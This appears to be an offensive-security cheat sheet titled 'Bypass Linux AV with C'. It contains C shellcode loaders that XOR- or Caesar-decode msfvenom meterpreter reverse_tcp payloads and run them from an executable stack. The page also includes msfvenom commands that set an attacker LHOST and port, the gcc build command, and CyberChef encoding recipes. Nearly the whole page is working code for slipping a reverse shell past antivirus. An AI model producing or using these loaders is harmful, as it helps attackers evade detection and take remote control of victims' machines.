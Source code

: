 ```yaml
---
description: Bypass Linux AV with C
---
```


# Linux Shellcode Encoders

## C Payloads&#x20;

When you're done building your payload make sure the processor architecture matches the target environment

```
gcc -o payload.out linux_payload.c -z execstack
```

### XOR Encoding

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=443 -f c --encrypt xor --encrypt-key R

unsigned char buf[] =<PAYLOAD>;


int main (int argc, char **argv) 
{
	char xor_key = 'R';
	int arraysize = (int) sizeof(buf);
	for (int i=0; i<arraysize-1; i++)
	{
		buf[i] = buf[i]^xor_key;
	}
	int (*ret)() = (int(*)())buf;
	ret();
}
```

### Ceasar Shift

Ceasar Shift Template

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=443 -f c
unsigned char buf[] = <PAYLOAD>;

int main (int argc, char **argv)
{
	int payload_length = ((int) sizeof(buf)) -1;
        printf("Ceasar Shift - 2");
        printf("\n");
        //unsigned char enc[payload_length];
	//unsigned char dec[payload_length];

	for (int i=0; i<payload_length; i++)
	{
	   //enc[i] = ((buf[i]-2)& 0xFF);
	   printf("\\x%02X",((buf[i]-2)& 0xFF));
	}
	
	/* THE FOLLOWING IS IF YOU WANTED TO TEST YOUR OWN ENCODING METHOD
	printf("\n");
        printf("Ceasar Shift Decoded");
        printf("\n");
        for (int i=0; i<payload_length; i++)
        {
	  dec[i] = ((enc[i]+2)& 0xFF);
          printf("\\x%02X",((enc[i]+2)& 0xFF));
        }
	printf("\n");
	if(memcmp(buf,dec,sizeof buf)==0)
	   printf("decode of shellcode is the same");
        printf("\n");
        */
	return 0;
	
}


```

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] ="<COPY PAYLOAD FROM ENCODER ABOVE>";

int main (int argc, char **argv) 
{
        int arraysize = (int) sizeof(buf);
        for (int i=0; i<arraysize-1; i++)
        {
                buf[i] = ((buf[i]+2)& 0xff);
        }
        int (*ret)() = (int(*)())buf;
        ret();
}
```

### CyberChef Encoder Shortcut

Ceasar Shift Link

{% embed url="https://gchq.github.io/CyberChef#recipe=SUB(%7B'option':'Hex','string':'2'%7D/disabled)From_Hex('Auto')ROT13(false,false,false,2)SUB(%7B'option':'Hex','string':'2'%7D)ADD(%7B'option':'Hex','string':'2'%7D/disabled)AND(%7B'option':'Hex','string':'0xFF'%7D)To_Hex('0x%20with%20comma',0)" %}
Shift - 2 By Default
{% endembed %}

XOR Link

{% embed url="https://gchq.github.io/CyberChef#recipe=From_Hex('%5C%5Cx')XOR(%7B'option':'UTF8','string':'R'%7D,'Standard',false)To_Hex('%5C%5Cx',0)" %}
XOR "R" By Default
{% endembed %}

